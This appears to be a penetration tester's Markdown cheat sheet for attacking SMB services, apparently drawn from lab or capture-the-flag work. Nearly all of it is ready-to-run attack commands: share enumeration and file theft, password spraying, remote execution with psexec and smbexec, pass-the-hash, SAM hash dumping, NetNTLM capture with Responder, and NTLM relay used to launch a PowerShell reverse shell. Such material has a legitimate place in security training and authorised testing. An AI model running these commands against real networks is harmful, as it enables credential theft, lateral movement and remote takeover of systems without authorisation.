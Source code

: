 # SMB

## Summary
Exposed shares often contain plaintext secrets, SSH keys, backups, or configuration files. SMB supports many offensive techniques: share enumeration, credential reuse, remote command execution (psexec/smbexec), NetNTLM capture (forced auth), NTLM relay, and exploitation of protocol vulnerabilities (e.g., SMBGhost). Prioritize read-only shares first — they’re low risk and high reward.

---

## Discovery & Enumeration
- Scan hosts for SMB (445/tcp) and NetBIOS (137/138/139):
```bash
nmap -p445,139,137 --script smb-enum-shares,smb-os-discovery <target>
```
- Quick share listing with `smbclient`:
```bash
smbclient -N -L //<target>
```
- Authenticated enumeration with `smbmap` to check permissions and quickly pull files:
```bash
smbmap -H <target>
smbmap -u simon -p liverpool -H <target> -r Home --no-banner

# rpcclient
rpcclient -U'%' 10.129.203.6
rpcclient $> enumdomusers
user:[jason] rid:[0x3e8]
user:[robin] rid:[0x3e9]

# enum4linux
./enum4linux-ng.py 10.10.11.45 -A -C
```
- `enum4linux` / `enum4linux-ng` for a broad set of SMB/NetBIOS checks.

---

## File Operations
- Download files for local analysis:
```bash
smbmap -H <target> --download "Share\path\file"
# or
smbclient \\\\target\\Share -U user%pass -c 'lcd /tmp; get file'

# Download | upload a file
smbmap -H $htb --download "GGJ\id_rsa"
smbmap -u jason -p '34c8zuNBo91!@28Bszh' -H 10.129.203.6 --download "GGJ\id_rsa"
smbmap -H $htb --upload test.txt "GGJ\test.txt"
```
- Look for filenames: `creds.txt`, `passwords.txt`, `id_rsa`, `backup*.zip`, `*.sql`, `*.mdb`, `*.pst`.

---

## Password Attacks & Spraying
- Password spraying with CrackMapExec avoids immediate lockouts:
```bash
crackmapexec smb <target> -u users.txt -p 'Summer2024!' --local-auth
```
- Brute forcing (use sparingly and slowly): Hydra / Medusa can target SMB (or netbios auth surface).

---

## Remote Code Exec / Lateral Tools
- Impacket `psexec.py` / `smbexec.py` / `atexec.py` for command execution if valid creds exist:
```bash
# psexec
python3 /usr/share/impacket/examples/psexec.py DOMAIN/Administrator@<target> -hashes :NTLM_HASH

# smbexec
crackmapexec smb <target> -u Admin -p 'Passw0rd' --exec-method smbexec -x 'whoami'

# Impacket - smbexec or atexec
impacket-psexec administrator:'liverpool'@10.129.203.6

# Crackmap
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

# Enumerate users
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

# Extract hashes & PtH
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```
- `wmiexec.py` and `smbexec.py` are useful alternatives when SMB exec methods fail.

---

## Forced Authentication (NetNTLM Capture)
- Use `Responder` to capture NetNTLM v1/v2 hashes in LLMNR/NBNS/MDNS/SMB name resolution poisoning scenarios:
```bash
sudo responder -I eth0
# logs saved to /usr/share/responder/logs/
```
- Use `ntlmrelayx.py` (Impacket) to relay captured NetNTLM auth to target services (SMB, HTTP, LDAP) or to spawn a shell:
```bash
impacket-ntlmrelayx -t smb://<target> --no-daemon
```
- Crack captured hashes with `hashcat` (mode 5600 for NTLMv2):
```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

---

## NTLM Relay & RCE
- Relay captured NTLM auth to a target that accepts NTLM (often SMB, but also HTTP/LDAP) to escalate access.
- Example: disable SMB signing (if allowed) to improve relay success; check for SMB signing requirement via `smbclient` or `nmap` scripts.
- `impacket-ntlmrelayx` supports running a command or dropping a payload via SMB after successful relay.

PowerShell reverse shell using https://www.revshells.com/, Powershell #3 (Base64).

```bash
# Turn off smb in responder
cat /etc/responder/Responder.conf | grep 'SMB ='
SMB = Off

# Execute reverse shell
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e'
```

---

## Known Vulnerabilities
- CVE-2020-0796 — SMBGhost (SMBv3 compression vulnerability) — wormable RCE on certain unpatched Windows versions.
- Keep Windows patched; legacy SMBv1 should be disabled.

---

## Quick Cheatsheet
```bash
# Scan and enumerate
nmap -p445 --script smb-enum-shares,smb-enum-users <target>

# List shares
smbclient -L //<target> -N

# Authenticated enum and download
smbmap -u simon -p liverpool -H <target> --download "Home\\IT\\creds.txt"

# Spray
crackmapexec smb <target> -u users.txt -p 'Password123!' --local-auth

# Start responder
sudo responder -I eth0

# Relay example
impacket-ntlmrelayx -t smb://<target> -smb2support --no-http
```
